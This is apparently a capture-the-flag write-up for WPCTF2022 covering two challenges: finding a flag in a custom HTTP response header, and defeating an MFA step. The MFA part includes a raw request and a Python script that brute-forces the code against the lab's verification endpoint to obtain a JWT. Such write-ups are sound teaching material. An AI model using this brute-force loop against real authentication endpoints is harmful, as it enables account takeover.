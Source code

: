 # WPCTF2022

Confused about the exploit code? Checkout the exploit [here](./expl.py)!

(Or if you want to try the CTF, see the files [here](https://github.com/WuerthPhoenix/wpctf2022)!)

## Reconnaissance: WP{h1d3_http_h34d3rz}

For the first flag simply connect to your instance and look at the headers the server responds with, you should see a custom header called `Wp-Ctf` with the flag.

## 2FA: WP{d0cum4nt5_l34k_s3nsitiv3_inf0}

After logging with the given credentials `user047:asd` you are asked for a multifactor authentication code, and a request is made every second to an API endpoint that checks if the multifactor authentication step was successful.

```jsx
POST /api/mfa_verify.php HTTP/1.1
Host: start.wpctf.lan:8806
Content-Type: application/json;charset=utf-8

{"username":"user047","mfa_check":1912}
```

Since we don’t know what is the correct code, we tried all of them up to a thousand with this script:

```python
import requests
import json
for i in range(0,1000):
    d = {"username":"user047","mfa_check":i}
    r = requests.post("http://start.wpctf.lan:8806/api/mfa_verify.php",data=d)
    j = json.loads(r.text)
    if j['success'] == 'true':
        print(j['jwt'])
```

Turns out that a `mfa_check` equal to 123 is all we need to get the correct jwt token!
When logged in we saw some files, one of them had the flag in its name.

Here its content:

![Untitled](images/Untitled.png)
